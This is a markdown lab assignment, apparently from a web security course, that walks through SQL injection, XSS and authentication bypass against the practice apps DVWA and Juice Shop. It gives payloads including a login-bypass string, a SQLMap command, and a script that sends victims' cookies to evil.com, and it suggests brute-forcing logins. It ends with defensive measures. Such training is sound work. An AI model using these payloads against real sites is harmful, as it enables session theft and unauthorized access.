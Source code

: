 ```yaml
---
title: "VAS-3: Web Application Security & Exploitation Lab"
description: "Perform SQL Injection, XSS, and authentication bypass attacks using Burp Suite, SQLMap, and OWASP ZAP."
date: 2025-02-22
tags: ["Web Security", "Penetration Testing", "SQL Injection", "XSS"]
categories: ["Projects"]
draft: false
---
```


# 🔥 VAS-3: Web Application Security & Exploitation Lab

## 1️⃣ Setting Up the Lab
### Install the Necessary Tools
- **Burp Suite Community Edition** → [Download here](https://portswigger.net/burp/communitydownload)  
- **OWASP ZAP** → [Download here](https://www.zaproxy.org/download/)  
- **SQLMap** (Command-line tool, install via `pip`):
  ```bash
  pip install sqlmap
  ```
- **Vulnerable Web Application (Choose One)**  
  - **DVWA (Damn Vulnerable Web App)** → Install on a local VM (Apache + PHP).  
  - **OWASP Juice Shop** → Easy setup using Docker:
    ```bash
    docker run -d -p 3000:3000 bkimminich/juice-shop
    ```

---

## 2️⃣ SQL Injection Attack
SQL Injection (SQLi) allows attackers to extract data from a database.

### Step 1: Identify a Vulnerable Input Field
1. Open **Burp Suite** and turn on **Intercept Mode**.
2. Enter a **username and password** in a login form, then capture the request.
3. **Modify the request** with a simple SQLi payload:
   ```sql
   ' OR '1'='1' --
   ```
4. Forward the request and see if you get **unauthorized access**.

### Step 2: Automate SQL Injection with SQLMap
Run **SQLMap** against a vulnerable parameter:
```bash
sqlmap -u "http://target.com/login.php?user=admin" --dbs
```
- This command will **extract database names** if the input is vulnerable.

---

## 3️⃣ Cross-Site Scripting (XSS) Attack
XSS attacks allow injecting JavaScript into vulnerable web pages.

### Step 1: Find a Comment or Search Field
1. In **DVWA**, go to the **XSS (Stored) section**.
2. Submit this script as a comment:
   ```html
   <script>alert('Hacked!');</script>
   ```
3. If vulnerable, every visitor will see the **JavaScript alert box**.

### Step 2: Perform XSS via Burp Suite
1. Capture a **search request** in **Burp Suite**.
2. Modify the search query to inject:
   ```html
   <img src=x onerror=alert('XSS')>
   ```
3. If the input isn’t sanitized, the JavaScript **executes in the victim’s browser**.

---

## 4️⃣ Authentication Bypass Attack
Many websites store **session tokens** in cookies, which can be stolen.

### Step 1: Steal a User’s Cookie
1. Inject this script into a comment field:
   ```html
   <script>document.location='http://evil.com/steal.php?cookie='+document.cookie</script>
   ```
2. The attacker receives the victim's **authentication cookie**.
3. Use the stolen cookie to **log in as the victim**.

### Step 2: Test for Weak Authentication
1. Try **default credentials** (e.g., `admin:admin` or `root:password`).
2. If the site lacks **rate limiting**, use Burp Suite’s **Intruder** tool to brute-force login attempts.

---

## 🔐 Defensive Measures
After exploiting these vulnerabilities, we must understand **how to prevent them**.

✅ **Preventing SQL Injection:**  
- Use **prepared statements** in SQL queries.  
- Implement **Web Application Firewalls (WAFs)** to block malicious requests.

✅ **Preventing XSS Attacks:**  
- Always **sanitize user inputs** before storing them.  
- Use **Content Security Policy (CSP)** to restrict script execution.

✅ **Preventing Authentication Attacks:**  
- Implement **Multi-Factor Authentication (MFA)**.  
- Store session tokens **securely (HTTPOnly & Secure flags)**.

---

## 📌 Conclusion
This lab teaches you **real-world penetration testing skills** for **web application security**. By completing this, you’ve learned:
✅ How attackers exploit **SQL injection and XSS** vulnerabilities.  
✅ How to **manipulate web requests** using **Burp Suite**.  
✅ How to **steal session tokens and bypass authentication**.  
✅ How to **defend against web-based attacks**.

---

## 📤 Submission Instructions
- Submit **screenshots or a detailed report** explaining:  
  ✅ How you exploited each vulnerability  
  ✅ The impact of the attack  
  ✅ Steps to mitigate the issue

🚀 **Next Steps:**  
- Try testing **real-world bug bounty challenges** at [Hack The Box](https://www.hackthebox.com/) or [PortSwigger’s Web Security Academy](https://portswigger.net/web-security).
